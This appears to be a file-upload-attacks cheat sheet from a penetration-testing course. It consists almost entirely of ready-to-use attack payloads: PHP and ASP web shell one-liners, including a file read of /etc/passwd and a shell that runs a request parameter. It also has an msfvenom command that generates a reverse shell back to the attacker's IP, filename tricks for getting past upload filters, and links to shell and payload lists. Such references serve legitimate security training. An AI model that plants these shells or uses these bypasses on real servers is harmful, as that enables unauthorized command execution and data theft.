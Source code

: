 # File Upload Attacks

&#x20; **Cheat Sheet**

The cheat sheet is a useful command reference for this module.

### Web Shells

| **Web Shell**                                                                           | **Description**                       |
| --------------------------------------------------------------------------------------- | ------------------------------------- |
| `<?php file_get_contents('/etc/passwd'); ?>`                                            | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                                                          | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                                                    | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                                                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`          | Generate PHP reverse shell            |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                     | PHP Web Shell                         |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                 | PHP Reverse Shell                     |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

### Bypasses

| **Command**                                                                                                                                | **Description**                              |
| ------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------- |
| **Client-Side Bypass**                                                                                                                     |                                              |
| `[CTRL+SHIFT+C]`                                                                                                                           | Toggle Page Inspector                        |
| **Blacklist Bypass**                                                                                                                       |                                              |
| `shell.phtml`                                                                                                                              | Uncommon Extension                           |
| `shell.pHp`                                                                                                                                | Case Manipulation                            |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions                       |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)                | List of ASP Extensions                       |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)                          | List of Web Extensions                       |
| **Whitelist Bypass**                                                                                                                       |                                              |
| `shell.jpg.php`                                                                                                                            | Double Extension                             |
| `shell.php.jpg`                                                                                                                            | Reverse Double Extension                     |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…`                                                                                          | Character Injection - Before/After Extension |
| **Content/Type Bypass**                                                                                                                    |                                              |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)                             | List of Web Content-Types                    |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)                    | List of All Content-Types                    |
| [File Signatures](https://en.wikipedia.org/wiki/List\_of\_file\_signatures)                                                                | List of File Signatures/Magic Bytes          |
